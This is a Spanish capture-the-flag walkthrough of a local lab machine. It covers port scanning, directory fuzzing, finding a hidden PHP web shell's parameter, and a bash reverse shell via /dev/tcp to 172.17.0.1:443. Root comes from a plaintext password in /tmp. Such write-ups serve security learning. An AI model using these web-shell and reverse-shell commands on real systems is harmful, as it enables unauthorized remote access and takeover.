








Enumeración
Escaneo de puertos:
nmap -p- --open --min-rate 5000 -vvv -sS 172.17.0.2
Host is up, received arp-response (0.000011s latency).
Scanned at 2024-07-15 19:02:59 -03 for 2s
Not shown: 65534 closed tcp ports (reset)
PORT STATE SERVICE REASON
80/tcp open http syn-ack ttl 64
Detectamos versión y servicio de los puertos abiertos:
nmap -sCV -p80 172.17.0.2
Host is up (0.000064s latency).
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.4.57 ((Debian))
|_http-title: Academia de Ingl\xC3\xA9s (Inglis Academi)
|_http-server-header: Apache/2.4.57 (Debian)
Si ingresamos al sitio, vemos lo siguiente:

Intrusión
Realizaremos fuzzing de directorios, y buscamos por extensiones, por ejemplo, php, html y txt:
gobuster dir -u http://172.17.0.2 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x php,html,txt

Nos encuentra warning.html. Al ingresar, vemos lo siguiente:

En el output de gobuster también vemos que shell.php nos devuelve un error 500, pero esto nos da una pista. Seguramente la estructura del archivo sea algo similar a esto:
<?php
system($_GET['cmd'])
?>
Solo que no sabemos cuál es el nombre del parámetro. Podemos hacer fuzzing e igualar la variable a un comando, por ejemplo, id:
wfuzz -c --hc=500 -t 20 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt "http://172.17.0.2/shell.php?FUZZ=id"
Descubrimos que el parámetro se llama parameter:

Para probarlo, hacemos un curl y vemos el output del comando id:
curl -s -X GET "http://172.17.0.2/shell.php?parameter=id"

Obteniendo una Reverse Shell
Ahora que tenemos RCE, vamos a obtener una Reverse Shell. Para eso, nos quedamos a la escucha con netcat y vamos a ejecutar lo siguiente en la web:
http://172.17.0.2/shell.php?parameter=bash -c "bash -i >%26 /dev/tcp/172.17.0.1/443 0>%261"
Obtenemos la sesión:

Podemos ver que el código de shell.php era similar a como pensábamos:
Escalación de privilegios
El sitio nos decía que había algo interesante en el directorio /tmp, por lo que nos dirigimos a él. Dentro hay un archivo secret.txt que contiene en texto plano la contraseña de root. La probamos y funciona.
